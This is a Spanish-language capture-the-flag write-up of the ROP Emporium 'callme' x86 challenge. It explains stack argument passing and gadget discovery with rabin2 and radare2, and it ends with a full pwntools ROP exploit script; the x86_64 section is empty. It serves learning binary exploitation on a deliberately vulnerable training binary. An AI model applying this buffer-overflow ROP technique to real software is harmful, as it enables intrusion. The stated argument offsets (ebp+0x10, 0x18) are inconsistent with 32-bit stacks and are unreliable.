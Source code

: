 # callme

## x86

```
 checksec --file=callme32
[*] '/home/kalcast/Descargas/callme32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
```

Ok de nuevo sin canario ni PIE, en la descripcion nos dicen que para ganra debemos llamar a tres funciones: `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`, ` callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` y `callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

Los argumentos de una funcion en x86 se pasan por el stack. Cuando se hace un "call fun" el stack frame luce asi:
```
 function_return      <-- esp
 reserved_ebp         <-- ebp
 arg1 
 arg2
 arg3
```

La funcion busca el primer argumento en ebp+0x8, el segundo en ebp+0x10 y el tercero en ebp+0x18 y luego retorna a "function_return".

Luego limpia el stack frame moviendo esp con `add esp,12` por ejemplo.

Necesitamos simular este comportamiento para tres llamadas. Podemos obtenerlas con rabin2:
```
 rabin2 -s callme32  | grep callme
35  ---------- 0x00000000 LOCAL  FILE   0        callme.c
3   0x000004e0 0x080484e0 GLOBAL FUNC   16       imp.callme_three
4   0x000004f0 0x080484f0 GLOBAL FUNC   16       imp.callme_one
11  0x00000550 0x08048550 GLOBAL FUNC   16       imp.callme_two
```

Es curioso notar que estas funciones no pertenecen al binario sino que son importadas desde `libcallme32.so`

```
rabin2 -R callme32 | grep callme
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
0x0804a014 0x00001014 SET_32 7     callme_three
0x0804a018 0x00001018 SET_32 7     callme_one
0x0804a030 0x00001030 SET_32 7     callme_two
```

Tenemos las direcciones de las funciones y conocemos los argumentos pero debemos limpiar la pila entre llamadas.

Podemos usar un "gadget", un grupo de instrucciones en ensamblador que hacen algo y terminan en `ret`.

Necesitamos una que haga tres `pop` para eliminar los argumentos y limpiar la pila. Podemos dentro de r2 usar "/R" para obtener un gadget:
``` /R pop
...
  0x080487f8                 5b  pop ebx
  0x080487f9                 5e  pop esi
  0x080487fa                 5f  pop edi
  0x080487fb                 5d  pop ebp
  0x080487fc                 c3  ret
...
```

Podemos usar esta direccion: 0x080487f9.

Exploit con Python/pwntools:
``` python
from pwn import *
elf = context.binary = ELF("./callme32")
io = process("./callme32")

pop_gadget=0x080487f9
def call(addr):
    payload=p32(addr)
    payload+=p32(pop_gadget) 
    #payload+=p32(0x0)
    payload+=p32(0xdeadbeef) # ebp + 8
    payload+=p32(0xcafebabe)
    payload+=p32(0xd00df00d)
    return payload

io.recv()
payload=b"A"*44
payload+=call(elf.sym['callme_one'])
payload+=call(elf.sym['callme_two'])
payload+=call(elf.sym['callme_three'])

io.sendline(payload)
io.interactive()
```

## x86_64







